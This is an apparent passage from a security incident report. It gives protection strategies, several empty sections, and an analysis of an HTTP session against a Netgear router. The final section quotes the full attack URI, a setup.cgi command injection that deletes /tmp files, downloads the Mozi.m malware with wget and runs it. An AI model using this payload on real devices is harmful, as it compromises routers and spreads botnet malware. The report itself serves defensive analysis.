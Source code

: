 ## Protection Strategies

- Regular system and application patches to address known vulnerabilities.
- Implementation of firewalls and intrusion detection/prevention systems to monitor and block suspicious activities.
- Secure application development practices to minimize vulnerabilities in web applications.
- Continuous monitoring for indicators of compromise to detect and respond to potential threats rapidly.

By understanding this attack's vectors, methods, and potential goals, an organization can reinforce its defenses, refine its detection capabilities, and prepare more effective response strategies against similar future threats.

<details><summary>
<h3>Extended Summary</h3>
</summary></details>

---


<details><summary>
<h2>Custom Scripts Used To Generate This Report</h2>
</summary></details>

---


<details><summary>
<h1>Time and Date of Activity</h1>
</summary></details>

---


<details><summary>
<h1>Relevant Logs, File or Email</h1>
</summary></details>

---


<details><summary>
<h1>IP and Ports</h1>
</summary></details>

---


# HTTP Sessions Analysis

The HTTP session involved in the attack requested the following URI and headers:

- **Method**: GET
- **URI**: `/setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://192.168.1.1:8088/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1`
- **HTTP Version**: HTTP/1.0
